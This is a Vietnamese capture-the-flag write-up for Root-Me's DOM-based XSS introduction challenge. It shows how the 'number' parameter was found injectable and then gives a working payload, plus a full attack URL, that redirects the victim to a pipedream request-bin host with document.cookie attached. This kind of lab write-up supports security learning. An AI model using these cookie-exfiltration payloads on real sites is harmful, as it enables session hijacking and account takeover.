 # WRITE UP

## **Challenge:** [XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)

Sau khi thử submit, thì ta có thể xem được script của website:

<img src="./media/image1.png" style="width:6.5in;height:2.34861in" alt="Text Description automatically generated" />

Lúc này, tham số number sẽ đảm nhận nhận input. Ta thử kiểm tra XSS ở ô này bằng payload **‘;alert(1)//** thì thấy thành công:

<img src="./media/image2.png" style="width:6.5in;height:1.01875in" alt="Graphical user interface, text, application Description automatically generated" />

Ta sẽ dùng document.location để redirect website đến HTTP Request và payload để DOM based XSS như sau (ta dùng RequestBin tạo từ <https://requestbin.in>):

**';document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie;//**

<img src="./media/image3.png" style="width:6.5in;height:0.8375in" alt="Graphical user interface, text, application Description automatically generated" />

Website đã chuyển hướng thành công, giờ ta sẽ thực hiện POST lên bằng form bên tag contact:

<img src="./media/image4.png" style="width:6.5in;height:1.55972in" alt="Graphical user interface, text, application Description automatically generated" />

Ta thực hiện điền payload bên dưới đến POST lên và đợi cookie được trả về tại RequestBin:

<http://challenge01.root-me.org/web-client/ch32/?number=%27;document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie//>

<img src="./media/image5.png" style="width:6.5in;height:1.64444in" alt="Graphical user interface, application, Teams Description automatically generated" />

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
